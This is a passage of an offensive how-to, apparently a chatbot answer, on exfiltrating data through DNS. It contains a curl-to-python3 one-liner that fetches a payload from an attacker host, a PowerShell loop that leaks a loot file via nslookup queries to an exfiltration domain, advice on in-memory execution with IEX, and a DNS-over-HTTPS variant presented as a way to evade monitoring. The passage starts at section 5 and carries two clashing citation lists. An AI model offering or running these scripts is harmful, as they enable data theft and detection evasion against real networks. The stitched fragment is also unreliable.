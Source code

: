 
**Usage on target:**

```bash
curl http://YOURKALI:8000/payload.py | python3 -
```

This downloads and immediately starts exfiltration via DNS.

---

## 5️⃣ PowerShell Version

```powershell
$bytes = [Convert]::ToBase64String((Get-Content .\loot.txt -Encoding Byte))
$chunks = $bytes.Length / 50
for ($i=0; $i -le $chunks; $i++) {
  $part = $bytes.Substring($i*50, [Math]::Min(50, $bytes.Length - $i*50))
  nslookup "$hostID.$i.$part.exfildomain.com" > $null
  Start-Sleep -Milliseconds 300
}
```

Wrap it in `IEX(New-Object Net.WebClient).DownloadString(...)` for in-memory execution.

---

## 6️⃣ DNS over HTTPS (DoH) Variant

Use Python with `requests` and raw packets:

```python
import requests, struct, os

def make_query(domain):
    tid = os.urandom(2)
    flags = b'\x01\x00'  # standard recursive
    qcount = b'\x00\x01'
    body = tid + flags + qcount + b'\x00'*8
    for label in domain.split('.'):
        body += bytes([len(label)]) + label.encode()
    body += b'\x00\x00\x01\x00\x01'
    return body

def doh_query(domain):
    pkt = make_query(domain)
    r = requests.post("https://cloudflare-dns.com/dns-query",
                      headers={"Content-Type":"application/dns-message"},
                      data=pkt)
    return r.status_code

# Use doh_query instead of dns.resolver.resolve
```

This hides within HTTPS traffic to evade network monitoring ([medium.com][5], [github.com][2], [reddit.com][6], [medium.com][7]).

---

[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"